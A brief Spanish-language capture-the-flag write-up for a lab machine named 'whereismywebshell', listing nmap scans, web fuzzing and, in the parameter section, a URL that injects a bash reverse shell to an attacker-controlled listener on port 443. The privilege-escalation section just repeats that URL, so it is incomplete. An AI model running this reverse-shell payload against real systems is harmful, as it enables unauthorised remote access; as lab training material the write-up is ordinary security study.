 # Maquina whereismywebshell

### PUERTOS ABIERTOS

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.1

![alt text](image.png)

### SERVICIOS Y VERSIONES

sudo nmap -sVC --min-rate 6000 -p80 -vvv -Pn 172.17.0.1

![alt text](image-1.png)

### ENTRANO EN LA WEB

![alt text](image-2.png)

### FUZZING WEB

![alt text](image-3.png)


entramos en warning.html

![alt text](image-4.png)

### IDENTIFICAR EL PARÁMETRO

![alt text](image-5.png)


en la url hacemos:

http://172.17.0.1/shell.php?parameter=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.3/443%200%3E%261%22

previamente en escucha en el puerto 443

### ESCALAR PRIVILEGIOS

http://172.17.0.1/shell.php?parameter=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.3/443%200%3E%261%22